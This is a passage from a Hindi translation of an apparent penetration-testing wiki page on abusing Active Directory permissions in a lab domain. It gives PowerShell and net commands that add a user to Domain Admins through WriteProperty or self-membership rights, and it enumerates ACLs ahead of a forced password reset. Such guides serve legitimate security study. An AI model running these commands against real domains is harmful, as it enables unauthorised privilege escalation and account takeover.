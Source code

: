 {% content-ref url="shadow-credentials.md" %}
[shadow-credentials.md](shadow-credentials.md)
{% endcontent-ref %}

## Group पर WriteProperty

यदि हमारे नियंत्रण में होने वाले उपयोगकर्ता के पास `Domain Admin` समूह के लिए `All` ऑब्जेक्ट्स पर `WriteProperty` अधिकार हैं:

![](../../../.gitbook/assets/7.png)

तो हम फिर से अपने आप को `Domain Admins` समूह में जोड़ सकते हैं और विशेषाधिकारों को बढ़ा सकते हैं:
```csharp
net user spotless /domain; Add-NetGroupUser -UserName spotless -GroupName "domain admins" -Domain "offense.local"; net user spotless /domain
```
![](../../../.gitbook/assets/8.png)

## स्वयं (स्वयं सदस्यता) समूह पर

एक और विशेषाधिकार जो हमलावर्ती को समूह में खुद को जोड़ने की अनुमति देता है:

![](../../../.gitbook/assets/9.png)
```csharp
net user spotless /domain; Add-NetGroupUser -UserName spotless -GroupName "domain admins" -Domain "offense.local"; net user spotless /domain
```
![](../../../.gitbook/assets/10.png)

## WriteProperty (स्वयं सदस्यता)

एक और विशेषाधिकार जो हमलावर्ती को समूह में खुद को जोड़ने की अनुमति देता है:
```csharp
Get-ObjectAcl -ResolveGUIDs | ? {$_.objectdn -eq "CN=Domain Admins,CN=Users,DC=offense,DC=local" -and $_.IdentityReference -eq "OFFENSE\spotless"}
```
![](../../../.gitbook/assets/11.png)
```csharp
net group "domain admins" spotless /add /domain
```
![](../../../.gitbook/assets/12.png)

## **ForceChangePassword**

यदि हमारे पास `User-Force-Change-Password` ऑब्जेक्ट प्रकार पर `ExtendedRight` है, तो हम उपयोगकर्ता के मौजूदा पासवर्ड को नहीं जानते हुए उनका पासवर्ड रीसेट कर सकते हैं:
```csharp
Get-ObjectAcl -SamAccountName delegate -ResolveGUIDs | ? {$_.IdentityReference -eq "OFFENSE\spotless"}
```
![](../../../.gitbook/assets/13.png)

